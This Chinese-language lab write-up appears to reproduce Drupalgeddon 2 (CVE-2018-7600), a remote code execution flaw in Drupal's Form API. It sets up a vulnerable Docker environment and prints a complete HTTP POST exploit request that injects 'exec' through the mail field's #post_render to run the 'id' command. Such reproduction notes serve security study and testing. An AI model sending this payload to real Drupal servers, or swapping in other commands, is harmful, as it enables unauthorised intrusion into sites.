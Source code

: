 # Drupal Drupalgeddon 2 远程代码执行漏洞（CVE-2018-7600）

Drupal 是一款用量庞大的CMS，其6/7/8版本的Form API中存在一处远程代码执行漏洞。相关分析如下：

- https://research.checkpoint.com/uncovering-drupalgeddon-2/

## 漏洞环境

执行如下命令启动drupal 8.5.0的环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip/`将会看到drupal的安装页面，正常安装即可。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

## 漏洞复现

参考[https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py](a2u/CVE-2018-7600)，我们向安装完成的drupal发送如下数据包：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

成功执行代码，这个代码最终执行了id命令：

![](1.png)